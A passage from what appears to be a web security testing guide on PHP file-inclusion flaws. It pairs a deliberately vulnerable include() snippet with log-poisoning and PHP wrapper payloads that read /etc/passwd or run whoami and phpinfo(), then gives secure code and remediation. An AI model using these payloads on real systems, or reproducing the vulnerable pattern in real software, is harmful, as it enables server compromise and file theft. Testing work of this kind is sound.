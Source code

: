 **Example Vulnerable Code (PHP)**:
```php
$file = $_GET['file'];
include($file);
```
Test: Inject `<?php system('whoami'); ?>` in User-Agent, then `?file=../../var/log/apache2/access.log`
Result: Executes `whoami`.

**Example Secure Code (PHP)**:
```php
$file = basename($_GET['file']);
if (file_exists("pages/$file")) {
    include("pages/$file");
} else {
    die("Invalid file");
}
```
Test: No execution.

**Remediation**:
- Restrict log file access:
  ```apache
  <Files ~ "\.log$">
      Deny from all
  </Files>
  ```
- Sanitize log inputs:
  ```php
  $user_agent = filter_var($_SERVER['HTTP_USER_AGENT'], FILTER_SANITIZE_STRING);
  ```
- Use non-executable log directories.

**Tip**: Save executed command output in a report.

### 7. Test for Wrapper Protocol Abuse

**Objective**: Verify if LFI or RFI vulnerabilities can exploit PHP wrapper protocols to access files or execute code.

**Steps**:
1. Identify LFI or RFI-vulnerable parameters.
2. Inject wrapper payloads:
   - For LFI:
     - Use Burp:
       ```http
       GET /page?file=php://filter/convert.base64-encode/resource=../../etc/passwd HTTP/1.1
       Host: example.com
       ```
     - Use cURL:
       ```bash
       curl -i "http://example.com/page?file=php://filter/convert.base64-encode/resource=../../etc/passwd"
       ```
   - For RFI:
     - Use Burp:
       ```http
       GET /page?file=data://text/plain,<?php phpinfo(); ?> HTTP/1.1
       Host: example.com
       ```
3. Check responses:
   - LFI: Decode base64 output to reveal file contents.
   - RFI: Look for code execution (e.g., `phpinfo()`).
4. Test other wrappers:
   - `expect://whoami`, `php://input` with POST data.
